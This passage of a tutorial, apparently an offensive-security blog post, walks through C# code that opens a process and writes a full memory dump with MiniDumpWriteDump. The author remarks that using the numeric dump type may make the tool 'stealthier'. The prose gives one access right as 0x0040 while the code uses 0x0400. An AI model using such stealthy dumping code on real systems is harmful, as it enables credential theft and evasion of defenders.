 With that dump file name, we will create the file (or overwrite it if it already exists!) with the class [FileStream](https://docs.microsoft.com/en-us/dotnet/api/system.io.filestream?view=net-5.0):

```c
FileStream output_file = new FileStream(filename, FileMode.Create);
```

We will create a handle to the process with the function [OpenProcess()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) and the minimum process rights we need: PROCESS_VM_READ and PROCESS_QUERY_INFORMATION. It would also work with PROCESS_ALL_ACCESS, but it is not necessary. These rights, as we can see [in here](https://docs.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights), translate to 0x0010 and 0x0040:

```c
uint processRights = 0x0010 | 0x0400;
IntPtr processHandle = OpenProcess(processRights, false, processPID)
```

We will check if the handle to the process is correct or not, and if it is we will dump the process. 

From [this link](https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/ne-minidumpapiset-minidump_type), we can find that *MiniDumpWithFullMemory*, the type of dump we want, translates to the value 0x00000002 (hopefully using this value instead of the string makes the process stealthier!). We will use that value, the process handle, process PID and the output file and feed it to the function [MiniDumpWriteDump()](https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump), which will do the work:


```c
if (processHandle != INVALID_HANDLE_VALUE)
{
    Console.WriteLine("[+] Handle to process created correctly.");
    //Dump the process            
    bool isDumped = MiniDumpWriteDump(processHandle, processPID, output_file.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
    if (isDumped)
    {
        Console.WriteLine("[+] Successfully dumped process with pid " + processPID + " to file " + filename);
    }
    else
    {
        Console.WriteLine("[-] Error: Process not dumped.");
    }
}
else {
    Console.WriteLine("[-] Error: Handle to process is NULL.");
}
```

<br>


## Final script
